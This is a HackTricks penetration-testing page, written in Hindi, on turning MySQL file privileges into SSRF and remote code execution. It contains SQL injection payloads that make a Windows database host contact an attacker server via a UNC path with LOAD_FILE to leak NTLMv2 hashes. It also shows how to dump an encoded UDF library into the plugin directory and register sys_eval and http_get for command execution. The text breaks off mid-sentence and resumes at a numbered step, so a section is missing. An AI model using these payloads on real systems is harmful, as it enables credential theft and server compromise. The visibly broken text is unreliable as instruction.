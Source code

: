 # MySQL फ़ाइल विशेषाधिकार से SSRF/RCE

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS की नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की इच्छा है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा एकल [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में **शामिल हों** या मुझे **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स को** [**hacktricks रेपो**](https://github.com/carlospolop/hacktricks) **और** [**hacktricks-cloud रेपो**](https://github.com/carlospolop/hacktricks-cloud) **में पीआर जमा करके अपना योगदान दें।**

</details>

### LOAD\_FILE/LOAD DATA/LOAD XML से SSRF तक

हर SQL Out of Band डेटा उद्धरण लेख `LOAD_FILE()` स्ट्रिंग फ़ंक्शन का उपयोग नेटवर्क अनुरोध करने के लिए करेगा। फ़ंक्शन खुद में इसकी सीमाएं होती हैं जो ऑपरेटिंग सिस्टम पर चलाया जाता है और डेटाबेस को शुरू करने के सेटिंग्स पर आधारित होती हैं।

उदाहरण के लिए, यदि `secure_file_priv` ग्लोबल चर प्रारंभिक मान नहीं था, तो [डिफ़ॉल्ट मान `/var/lib/mysql-files/` पर सेट किया जाता है](https://dev.mysql.com/doc/mysql-installation-excerpt/5.7/en/linux-installation-rpm.html), जिसका मतलब है कि आप केवल `/var/lib/mysql-files/` निर्देशिका से फ़ाइलें पढ़ने के लिए `LOAD_FILE('filename')` या `LOAD DATA [LOCAL] INFILE 'filename' INTO TABLE tablename` जैसी फ़ंक्शन का उपयोग कर सकते हैं। इस निर्देशिका के बाहर की फ़ाइलों पर पढ़ाई करने के लिए, `secure_file_priv` विकल्प को `""` पर सेट करना होगा, जो केवल डेटाबेस कॉन्फ़िगरेशन फ़ाइल को अद्यतन करके या डेटाबेस सेवा को स्टार्टअप पैरामीटर के रूप में `--secure_file_priv=""` पास करके किया जा सकता है।

फिर भी, जहां `secure_file_priv` को `""` पर सेट किया गया है, हमें सिस्टम पर अन्य फ़ाइलें पढ़ने की क्षमता होनी चाहिए, यहां तक कि मौजूदा डेटाबेस उपयोगकर्ता के लिए `mysql.user` में `file_priv` को `Y` में सेट किया जा सकता है। हालांकि, इन फ़ंक्शन का उपयोग नेटवर्क कॉल करने के लिए बहुत ऑपरेटिंग सिस्टम निर्भर होता है। ये फ़ंक्शनें केवल फ़ाइलें पढ़ने के लिए बनाई गई हैं, इसलिए केवल नेटवर्क संबंधित कॉल केवल विंडोज होस्ट पर UNC पथों के लिए की जा सकती हैं क्योंकि [विंडोज `CreateFileA` एपीआई जब फ़ाइल तक पहुँचा जाता है तो UNC नामकरण संज्ञानात्मक कोष्ठकों को समझता है](https://docs.microsoft.com/en-gb/windows/win32/fileio/naming-a-file)।

तो यदि आपका लक्षित डेटाबेस विंडोज मशीन पर चल रहा है, तो इंजेक्शन क्वेरी `x'; SELECT LOAD_FILE('\\\\attackerserver.example.com\\a.txt'); -- //` [विंडोज मशीन को NTLMv2 हैश भेजने की कोशिश में आक्रमक नियंत्रित `\\attackers
1. MySQL `hex()` स्ट्रिंग फंक्शन या `xxd -p filename.so | tr -d '\n'` जैसी कुछ चीजों का उपयोग करें ताकि पुस्तकालय की सामग्री को हेक्स प्रारूप में रूपांतरित किया जा सके और फिर इसे `x'; SELECT unhex(0x1234abcd12abcdef1223.....) into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //` का उपयोग करके `@@plugin_dir` निर्देशिका में डंप करें।
2. वैकल्पिक रूप से, `filename.so` की सामग्री को base64 में रूपांतरित करें और `x';select from_base64("AAAABB....") into dumpfile '/usr/lib/mysql/plugin/lib_mysqludf_sys.so' -- //` का उपयोग करें।

यदि `@@plugin_dir` लिखने योग्य नहीं है, तो यदि संस्करण `v5.0.67` से ऊपर है, तो आप भाग्यशाली नहीं हैं। अन्यथा, पथ में स्थित एक अलग स्थान पर लिखें और उस स्थान से UDF पुस्तकालय लोड करें उपयोग करके

* `lib_mysqludf_sys` पुस्तकालय के लिए - `x';create function sys_eval returns string soname 'lib_mysqludf_sys.so'; -- //`
* `mysql-udf-http` पुस्तकालय के लिए - `x';create function http_get returns string soname 'mysql-udf-http.so'; -- //`

इसे स्वचालित बनाने के लिए, आप SQLMap का उपयोग कर सकते हैं जो [अपने `--udf-inject` विकल्प के माध्यम से कस्टम UDF का उपयोग समर्थित करता है](https://github.com/sqlmapproject/sqlmap/wiki/Usage)।

ब्लाइंड SQL इंजेक्शन के लिए, आप UDF फ़ंक्शनों के आउटपुट को एक अस्थायी तालिका में रीडायरेक्ट कर सकते हैं और फिर वहां से डेटा पढ़ सकते हैं या [एक `sys_eval` या `sys_exec` कर्ल कमांड के भीतर DNS अनुरोध छिपाएं](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)।

<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* क्या आप किसी **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks** में विज्ञापित करना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड** करना चाहते हैं? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!
* खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT**](https://opensea.io/collection/the-peass-family) संग्रह
* प्राप्त करें [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com)
* **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks\_live)** का** अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें और PR** जमा करके **hacktricks रेपो** और **hacktricks-cloud रेपो** को **बढ़ावा दें**।

</details>
